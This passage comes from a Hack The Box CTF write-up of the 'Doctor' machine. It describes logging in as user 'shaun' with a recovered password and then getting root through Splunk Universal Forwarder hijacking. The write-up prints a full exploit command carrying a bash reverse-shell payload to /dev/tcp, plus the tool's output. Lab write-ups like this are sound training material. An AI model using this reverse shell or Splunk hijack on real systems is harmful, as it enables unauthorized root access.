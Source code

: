![passwd](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/blob/master/Boxes/htb-doctor/images/shaun-password.PNG "Rock 'n' Roll!")

If you list the directories in `/home`, you will see that there is a user called `shaun`. If you try to use `su shaun` and copy-paste that password, you will be `shaun` and you can read the `user.txt` from `/home/shaun/user.txt`

>Onward ye old hacker!

------------------------------------------------------------

## Path to root:

### Enumeration:

Do you remember the `Splunk` service that we saw in the nmap scan? Yeah, let's take a look at that.

If you type in the URL of a browser `10.10.10.209:8089`, you will see that you have to accept an SSL certificate. Go ahead and accept it! You'll then be redirected to the `Splunkd` web page.

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/blob/master/Boxes/htb-doctor/images/doctor-splunkd-webpage.PNG "What the splunk!?")

If you try to check the `services` tab, you'll be required to authenticate. The only set of credentials that we have is `shaun:Guitar123`; if you try that set, you'll get in.

Moreover, if you run `ps aux | grep splunk` on the box, you'll see that `splunk` is running as root. So, it's worth checking for a privilege escalation route from this service.

```
root        1132  0.3  2.5 294628 102292 ?       Sl   Okt17   6:13 splunkd -p 8089 start
root        1134  0.0  0.3  77664 15620 ?        Ss   Okt17   0:00 [splunkd pid=1132] splunkd -p 8089 start [process-runner]
```

### Splunk Universal Forwarder (UF) Hijacking:

After searching for a while on google, I came across this particular [blog](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/) post along with its referenced github.

This blog is explaining a technique that temporarily changes the `Splunk UF` settings to make it use an attacker controlled server, allowing the attacker to deploy any malicious application to be run as the user running the `Splunk` service. 

Copy the code into your own python script or clone the repo, and run the script providing a reverse-shell payload from [`PayloadAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

>Don't forget to setup the listener!

```shell
$ python3 ape.py --host 10.10.10.209 --lhost 10.10.xx.xx --username 'shaun' --password 'Guitar123' --payload 'bash -c "bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1"' --payload-file "runme.sh"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpjfongrmj.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.xx.xx:8181/
10.10.10.209 - - [18/Oct/2020 14:03:31] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
